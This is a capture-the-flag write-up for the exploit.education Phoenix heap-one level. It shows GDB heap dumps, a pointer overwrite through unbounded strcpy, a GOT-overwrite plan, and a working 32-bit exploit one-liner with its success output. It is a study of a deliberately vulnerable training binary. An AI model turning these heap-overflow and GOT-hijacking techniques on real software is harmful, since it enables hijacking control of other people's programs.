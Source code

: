 ```yaml
---
layout: post
title: "exploit.education Phoenix - Heap 0x1"
category: CTF 
tagline:
tags: [binary, exploitation, phoenix, wargame, ctf, learning]
---
```


Write-up for: [https://exploit.education/phoenix/heap-one/](https://exploit.education/phoenix/heap-one/).

<!--more-->

## The vulnerability

In this challenge, we have two calls to `strcpy` without bounds checking. This can result in memory
corruption. The goal is to abuse this fact to redirect control flow to the `winner` function.

## Exploit

The struct in this program contains a `char` pointer. Memory for this is allocated on the heap with
one `malloc(8)` call each. Then, using `strcpy`, user input is copied to the memory location pointed to
by `i1->name`. The key to exploiting this program is using the first `strcpy` to override
the pointer content of `i2->name`. By doing so we can write arbitrary data to an arbitrary memory location. This can be
leveraged to overwrite an entry in the GOT to redirect code execution.

```c
struct heapStructure {
    int priority;
    char *name;
};
...
i1->name = malloc(8);
...
i2->name = malloc(8);
...
strcpy(i1->name, argv[1]);
strcpy(i2->name, argv[2]);
```

We start by analyzing the normal execution of the program to determine the relevant memory layout.
By looking at the disassembly (we are working with the 64-bit version here), we can see that `rsi` points to the first argument value:

```bash
0x400ab9 <main+124>       mov    rsi, rdx
0x400abc <main+127>       mov    rdi, rax
→   0x400abf <main+130>       call   0x4007f0 <strcpy@plt>

$rsi   : 0x00007fffffffe7e2  →  0x0041414141414141 ("AAAAAAA"?)
```

This value is copied to the address stored in `rdi`:

```bash
$rdi   : 0x00007ffff7ef6030
```

This means, `i1->name` points to this address. This is the address returned by the call to `malloc(8)`.
Repeating this step for `i2` reveals this address:

```bash
$rsi   : 0x00007fffffffe7ea  →  0x0042424242424242 ("BBBBBBB"?)
$rdi   : 0x00007ffff7ef6070  →  0x0000000000000000
```

This results in an offset of 0x40 bytes between `i1->name` and `i2->name`.

We also need to find the structs in memory. Remember, our goal is to overwrite the *address* of `i2->name` so
that the call to strcpy writes data to an arbitrary location. The location of the string itself is not as interesting to us as attackers. But we can use the location of the string to look at the surrounding heap memory.

```
*i1 (pointer on the stack)
    -> i1 (struct on the heap)
     - priority (integer)
     - name pointer(char *)
        -> name (8 bytes on the heap)

gef➤  x/32g $rdi-0x60
0x7ffff7ef6010: 0x0000000000000001      0x00007ffff7ef6030
0x7ffff7ef6020: 0x0000000000000000      0x0000000000000021
0x7ffff7ef6030: 0x0041414141414141      0x0000000000000000
0x7ffff7ef6040: 0x0000000000000000      0x0000000000000021
0x7ffff7ef6050: 0x0000000000000002   -->0x00007ffff7ef6070<--
0x7ffff7ef6060: 0x0000000000000000      0x0000000000000021
0x7ffff7ef6070: 0x0042424242424242      0x0000000000000000
0x7ffff7ef6080: 0x0000000000000000      0x00000000000fff81
0x7ffff7ef6090: 0x0000000000000000      0x0000000000000000
0x7ffff7ef60a0: 0x0000000000000000      0x0000000000000000
```

This is the heap memory after both strcpy calls. This shows us the memory layout we are interested in:

```
i1->priority (1)
address of i1->name
padding / control data
i1->name
padding / control data
i2->priority (2)
address of i2->name (TO BE OVERWRITTEN)
padding / control data
i2->name
```

With this information we can now overwrite the target address of the second strcpy call (the address of `i2->name`). The offset is 0x28 from `i1->name` (0x00414141....) to the address of `i2->name` (0x00007ffff7ef6070).


`gef➤  run $(python -c 'print("A"*0x28 + "BBBBBBBB" " " + "C"*7)')`

Breaking before the second strcpy shows the following situation:

```bash
strcpy@plt (
    $rdi = 0x4242424242424242,
    $rsi = 0x00007fffffffe7ea → 0x0043434343434343 ("CCCCCCC"?),
    $rdx = 0x00007fffffffe7ea → 0x0043434343434343 ("CCCCCCC"?)
)
```

Great! We're writing CCCCC.. to an address of our choosing (0x424242...)!
Now we need to find the GOT table entry for printf (which is optimized to be `puts`) and overwrite the value with the address of the `winner` function.

```bash
0x0000000000400ae7 <+170>:   call   0x400840 <puts@plt>
...
gef➤  disas 0x400840
Dump of assembler code for function puts@plt:
0x0000000000400840 <+0>:     jmp    QWORD PTR [rip+0x20398a]        # 0x6041d0 <puts@got.plt>
...
gef➤  print &winner
$1 = (<text variable, no debug info> *) 0x400af3 <winner>
```

Now we have a problem. Since we are on a 64-bit system, the actual address that we want to overwrite is `0x00000000006041d0`. That's a lot of null bytes. Since we overwrite it using `strcpy` it will terminate once it encounters a null byte. That means the resulting value will be `0x0x00007fff006041d0`. Not where want to write to :(.

Currently, I have no clue how to overcome this issue. I'll come back to this after doing more research. So for now, here is the final exploit for the 32-bit version (created using the same steps as outlined above!):

```bash
user@phoenix-amd64:/opt/phoenix/i486$ ./heap-one $(python -c 'import struct; print "A"*20 + struct.pack("<I", 0x804c140) + " " + struct.pack("<I", 0x804889a)')
Congratulations, you've completed this level @ 1555400694 seconds past the Epoch
```

`<I` specifies a little endian integer value. The first address (puts@got) was determined by stepping through the first call to `puts` once in order to have the address resolved.


Additional links:
[GOT and PLT for pwning](https://systemoverlord.com/2017/03/19/got-and-plt-for-pwning.html)
[GEF (GDB extension) documentation](https://gef.readthedocs.io/en/master/)
[Exploiting the heap](https://www.win.tue.nl/~aeb/linux/hh/hh-11.html)
[Azeria's amazing series on heap exploitation](https://azeria-labs.com/heap-exploitation-part-1-understanding-the-glibc-heap-implementation/)

